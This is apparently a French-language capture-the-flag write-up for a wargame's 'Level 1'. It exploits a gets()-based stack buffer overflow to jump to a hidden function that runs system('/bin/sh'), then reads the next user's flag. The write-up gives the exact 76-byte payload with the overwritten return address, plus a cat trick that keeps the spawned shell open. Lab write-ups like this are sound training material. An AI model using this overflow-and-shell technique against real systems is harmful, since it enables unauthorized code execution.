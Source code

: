 ## Level 1

Avec objdump ou GDB, on observe deux fonctions: `main()` et `run()`.

`run()` n'est jamais appelé mais, on y voit un appel a `system(/bin/sh)`.

`main()` contient un buffer de 64 characteres, qu'on peut overflow, grace au manque de vérification de l'appel `gets`.

On remplis donc le buffer avec des données random (64 bytes), plus l'espace inutilisé (12 bytes), puis on réecrit l'EIP avec l'adresse de la fonction <run>, trouvé avec objdump.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1`

`$ Good... Wait what?`

`$ segfault.`

On arrive a faire executer la fonction caché mais, l'appel a `system()` n'a pas
l'air de réagir.
Cause: l'orsque `system(/bin/sh)` est exécuté, l'entré standart n'est pas
disponible, il faut donc faire en sorte de garder la main sur le shell avec
l'entrée standart:

On ultilise le charactere '-' avec le binaire cat.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/level1`

`$ cat /tmp/level1 - | ./level1`

Et voila, le shell reste a l'écoute de nos commandes. On peut donc naviguer
vers le `/home/` du user level2 et récuperer le flag.
